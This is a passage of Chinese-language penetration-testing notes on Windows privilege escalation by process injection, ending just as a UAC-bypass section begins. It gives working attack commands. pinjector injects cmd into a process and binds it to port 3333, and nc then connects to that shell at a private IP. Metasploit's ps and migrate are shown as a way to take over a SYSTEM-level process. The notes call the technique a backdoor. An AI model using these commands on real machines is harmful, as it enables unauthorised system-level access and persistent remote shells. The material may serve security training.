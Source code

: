 ## 进程注入

1. 进程注入相当于开了一个后门，注入到其他用户下，只适用本地用户

2. Win2008以前版本可以使用pinjector工具进行进程注入

   ``` shell
   pinjector -l
   pinjector -p 420 cmd 3333
   nc 192.168.46.149 3333
   ```

3. 进程迁移注入

   - msf获取到普通权限后，输入ps命令查看系统进程权限

   - 找到一个以系统用户权限运行的进程记下该进程的PID，使用migrate PID进行进程迁移，成功后即可获取到系统用户权限

     ``` shell
     ps
     migrate PID  //迁移进程的PID
     ```

![进程注入1](img/windowsTq6.png)

![进程注入2](img/windowsTq7.png)

## BypassUAC提权
